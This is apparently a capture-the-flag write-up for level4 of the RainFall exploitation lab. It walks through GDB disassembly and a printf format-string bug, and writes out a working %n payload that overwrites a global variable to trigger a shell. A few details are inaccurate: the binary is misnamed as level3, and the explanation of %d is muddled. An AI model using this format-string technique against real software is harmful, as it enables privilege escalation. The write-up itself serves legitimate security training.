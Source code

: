 ```sh
level4@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
level4@RainFall:~$ ./level4
42
42
level4@RainFall:~$ ./level4 42
42
42
```
There is one excutable file **level3**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x08048444  p
0x08048457  n
0x080484a7  main
...
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave  
   0x08048456 <+18>:    ret    
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   ...
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave  
   0x080484a6 <+79>:    ret    
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave  
   0x080484b3 <+12>:    ret    
End of assembler dump.
```
We can see 3 functions ```main(), n(), p()```. ```n()``` function gets standard input by fgets, give to ```p()``` function, ```p()``` function does print the variable which is given by function ```n()```, but with ```printf()``` without formatter. \
And compare with variable ```m``` and 0x1025544, in decimal 16930116.
```sh
(gdb) x/s 0x8049810
0x8049810 <m>:   ""
```
As the previous level we try to lookup the stack values,
```sh
level4@RainFall:~$ python -c 'print "BBBB" + " %x" * 20' > /tmp/exploit3
level4@RainFall:~$ cat /tmp/exploit3 | ./level4 
BBBB b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```
And we can see that our BBBB which is ```42424242``` at the 12th position, so now we just have to do the same thing as the previous level: set value to ```16930116```.

But oops, the value ```16930116``` is too big number for print it all !

But no worries, there is a solution for this.
```sh
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"'
```
```printf()``` internally does counting for characters that has been printed but since we have to print ```16930112``` characters, it will be tough to allocate all of them in the memory. \
But by adding little ```d``` option, which helps to count characters "virtually" to track the total numbers of printed characters, it no longer has to allocate memory for millions of characters.
```sh
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit3
level4@RainFall:~$ cat /tmp/exploit3 - | ./level4 
...
(hidden)
```
level4 passed ! 통화점여!okidoki